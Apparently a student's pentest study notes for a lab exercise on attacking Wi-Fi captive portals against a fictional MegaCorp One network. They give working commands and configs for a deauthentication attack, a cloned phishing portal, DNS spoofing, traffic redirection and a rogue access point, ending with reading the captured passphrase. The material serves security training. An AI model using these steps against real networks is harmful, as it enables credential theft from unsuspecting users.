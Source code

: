 # 12. Attacking Captive Portals

Unencrypted or open network to allow guest or employees to easily connect to the network or internet, sometimes without credentials

*Think of it as Wireless@SG*

1. To attack a captive portal, have to know:
    - Channel
    - Encryption
    - Clients
    - If network is WPA-PSK or WPA2-PSK, capture handshake

1. Prepare captive portal, if target contains existing portal, can usually copy but have to make sure all resources are hosted locally. 

1. Configure and create rogue AP and run any necessary tools to help clients discover captive portal, force them to connect to us which allows capturing of user credentials

1. Credentials sent in clear text. Opportunistic Wireless Encryption (OWE) also sometimes called Enhanced Open, can encrypt the connection without requiring passphrase. This ensures that credentials sent are safe from interception while not all devices supports it. Most modern OS do

### Discovery

1. Run `sudo airmon-ng check kill` to kill process interfering with wireless card.
2. Run `sudo airmon-ng start wlan0` to start in monitor mode
3. Run `sudo airodump-ng` to capture info about clients and AP. Use `-w` and `--output-format pcap` to set output format to pcap
    
    `sudo airodump-ng -w discovery --output-format pcap wlan0mon`
    
4. Output saved as `discovery-01.cap`
5. Doesn’t matter if its on WPA1 or WPA2 since its open network on the same channel to trick clients to connect to us
6. Now intercept handshake from one of the clients. Wait for one to connect or reconnect, or use `aireplay-ng` to deauth clients. 
    
    `sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon` 
    

Now set up a captive portal that looks like the target:

1. install apache and php
    
    `sudo apt install apache2 libapache2-mod-php`
    
2. Download index page with all its resources, using wget. Use recursive `-r` and `-l2` 
    
    `wget -r -l2 https://www.megacorpone.com`
    

### Networking Setup

1. Assign IP Address to wlan0 interface. Use 192.168.87.1 with network mask of 255.255.255.0 IP used doesn’t matter once the user’s system detects that it can’t reach the internet, will automatically open IP address of the router in the browser which is also the host of the captive portal
    
    ```bash
    sudo ip addr add 192.168.87.1/24 dev wlan0
    sudo ip link set wlan0 up
    ```
    
2. Will need an IP configuration for clients to connect to us. We will use `dnsmasq` 
    
    `sudo apt install dnsmasq` 
    
    Use the following settings for mco-dnsmasq.conf
    
    Also need to do DNS spoofing, so that response for most DNS requests will point back to us with exception of rare cases. Added to the bottom
    
    ```bash
    # Main options
    # http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
    domain-needed
    bogus-priv
    no-resolv
    filterwin2k
    expand-hosts
    domain=localdomain
    local=/localdomain/
    # Only listen on this address. When specifying an
    # interface, it also listens on localhost.
    # We don't want to interrupt any local resolution
    # since the DNS responses will be spoofed
    listen-address=192.168.87.1
    
    # DHCP range
    dhcp-range=192.168.87.100,192.168.87.199,12h
    dhcp-lease-max=100
    
    # This should cover most queries
    # We can add 'log-queries' to log DNS queries
    address=/com/192.168.87.1
    address=/org/192.168.87.1
    address=/net/192.168.87.1
    
    # Entries for Windows 7 and 10 captive portal detection
    address=/dns.msftncsi.com/131.107.255.255
    ```
    
3. After setting up config file, start dnsmasq
    
    `sudo dnsmasq --conf-file=mco-dnsmasq.conf` 
    

1. Use netstat to confirm its listening on port 53 for DNS and 67 for DHCP
    
    `sudo netstat -lnp`
    
    ![Untitled](Untitled%208.png)
    
2. Sometimes clients ignore DNS settings in DHCP lease, use nftables rule to force redirect all DNS requests (UDP port 53, TCP port 53 is zone transfer) back to our server
    
    ```bash
    sudo apt install nftables
    sudo nft add table ip nat
    sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
    sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
    ```
    

1. In Apache site config, add mod_rewrite and mod_alias rules so that captive portal is set up properly. Edit the file **/etc/apache2/sites-enabled/000-default.conf** 
    
    ```bash
    ...
    
      # Apple
      RewriteEngine on
      RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
      RewriteCond %{HTTP_HOST} !^192.168.87.1$
      RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]
    
      # Android
      RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php
    
      # Windows 7 and 10
      RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
      RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php
    
      # Catch-all rule to redirect other possible attempts
      RewriteCond %{REQUEST_URI} !^/portal/ [NC]
      RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
    
    </VirtualHost>
    ```
    
2. Then run `sudo a2enmod rewrite`
3. Then run `sudo a2enmod alias`
4. Then run `sudo a2enmod ssl`
5. Then restart apache using `sudo systemctl restart apache2` 

### Setting up and Running Rogue AP

1. Use hostapd to run AP
    1. `sudo apt install hostapd`
    
2. Create 802.11n AP with exact same SSID and channel as target AP without encrpytion
    
    ```bash
    interface=wlan0
    ssid=MegaCorp One Lab
    channel=11
    
    # 802.11n
    hw_mode=g
    ieee80211n=1
    
    # Uncomment the following lines to use OWE instead of an open network
    #wpa=2
    #ieee80211w=2
    #wpa_key_mgmt=OWE
    #rsn_pairwise=CCMP
    ```
    
3. Run hostapd to get credentials. Run it in the background
    
    `sudo hostapd -B mco-hostapd.conf` 
    
4. Then stand by and check for logs using:
    
    `sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'` 
    
    ![Untitled](Untitled%209.png)
    
    Look out for MAC address that is associated with the target AP and can see the received IP address from dnsmasq
    
5. Open another terminal to monitor incoming Apache logs
    
    `sudo tail -f /var/log/apache2/access.log`
    
    ![Untitled](Untitled%2010.png)
    
6. Look in **/tmp** directory and find **passphrase.txt**
    
    `sudo find /tmp/ -iname passphrase.txt`
    
    ```bash
    sudo cat /tmp/systemd-private-0a505bfcaf7d4db699274121e3ce3849-apache2.service-lIP3ds/tmp/passphrase.txt
    ```
    

Sometimes OS detect captive portals can be disabled in the settings. When they are started manually, browsers should detect and redirect to captive portal but again, this feature can be disabled as well. 

There are a few different unusual behaviors to be aware of. 

- Windows will not show captive portal after automatically connecting to network. To fix: user has to manually go into network list dialog again and select our network and click connect to work
- Chrome doesn’t automatically check for captive portals upon startup. Only detects them when manually typing a URL or doing a search